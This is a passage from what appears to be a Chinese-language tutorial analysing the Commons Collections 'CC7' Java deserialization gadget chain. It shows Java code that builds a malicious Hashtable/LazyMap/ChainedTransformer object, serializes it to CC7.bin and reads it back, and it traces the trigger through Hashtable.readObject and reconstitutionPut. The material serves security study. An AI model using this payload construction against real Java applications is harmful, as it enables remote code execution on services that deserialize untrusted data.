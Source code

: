 ```

        ChainedTransformer chain = new ChainedTransformer(faketransformers);

        Map innerMap1 = new HashMap();
        Map innerMap2 = new HashMap();

        Map LazyMap1 = LazyMap.decorate(innerMap1, chain);
        Map LazyMap2 = LazyMap.decorate(innerMap2, chain);

        LazyMap1.put("yy", 1);
        LazyMap2.put("zZ", 1);

        Hashtable hashtable = new Hashtable();
        hashtable.put(LazyMap1, 1);
        hashtable.put(LazyMap2, 2);

        Field field = ChainedTransformer.class.getDeclaredField("iTransformers");
        field.setAccessible(true);
        field.set(chain, transformers);

        LazyMap2.remove("yy");
        ObjectOutputStream os = new ObjectOutputStream(new FileOutputStream("CC7.bin"));
        os.writeObject(hashtable);

        ObjectInputStream fos = new ObjectInputStream(new FileInputStream("CC7.bin"));
        fos.readObject();
    }
}
```

后半部分链子依然是不变的,重新去找触发LazyMap.get的点

这次是从Hashtable入手,在Hashtable重写的readObject结尾处的for循环调用了reconstitutionPut方法

```
for (; elements > 0; elements--) {
    @SuppressWarnings("unchecked")
        K key = (K)s.readObject();
    @SuppressWarnings("unchecked")
        V value = (V)s.readObject();
    // sync is eliminated for performance
    reconstitutionPut(table, key, value);
}
```

K和V都是从反序列化流里面读出来的,可以通过put方法进行控制

跟进reconstitutionPut方法

![image-20220129103008837](images/1.png)

